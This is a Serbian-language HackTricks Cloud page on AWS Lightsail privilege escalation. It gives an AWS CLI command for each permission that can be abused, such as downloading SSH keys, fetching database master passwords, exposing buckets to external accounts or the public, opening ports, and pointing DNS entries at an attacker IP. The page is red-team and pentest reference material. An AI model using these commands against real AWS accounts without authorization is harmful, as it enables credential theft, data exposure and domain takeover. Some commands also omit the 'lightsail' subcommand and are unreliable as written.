 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Za više informacija o Lightsail-u pogledajte:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Važno je napomenuti da Lightsail **ne koristi IAM uloge koje pripadaju korisniku** već AWS upravljanom nalogu, tako da ne možete zloupotrebiti ovu uslugu za privesc. Međutim, **osetljivi podaci** kao što su kod, API ključevi i informacije o bazi podataka mogli bi se naći u ovoj usluzi.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ova dozvola će vam omogućiti da dobijete SSH ključeve za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti da generišete SSH ključeve za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ova dozvola će vam omogućiti da dobijete ključ za pristup kanti:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar kante.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola će vam omogućiti da dobijete akreditive za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar baze podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ako baza podataka nije javna, možete je takođe učiniti javnom sa ovim dozvolama

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencijalni uticaj:** Pronaći osetljive informacije unutar baze podataka.

### `lightsail:OpenInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet. Imajte na umu da će poziv zatvoriti bilo koji port koji nije naveden.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava dodeljivanje pristupa instancama za bucket bez dodatnih kredencijala.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovom dozvolom, napadač bi mogao da dodeli svoj AWS nalog pristup za čitanje kanticama ili čak da učini kante javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateContainerService`

Sa ovom dozvolom, napadač bi mogao da omogući pristup privatnim ECR-ima iz servisa kontejnera.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni Uticaj:** Dobijanje osetljivih informacija iz privatnog ECR

### `lightsail:CreateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira e-poštu sa domena, ili čak da postavi glavni domen na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira emailove sa domena, ili čak da postavi glavni domen na svoju IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
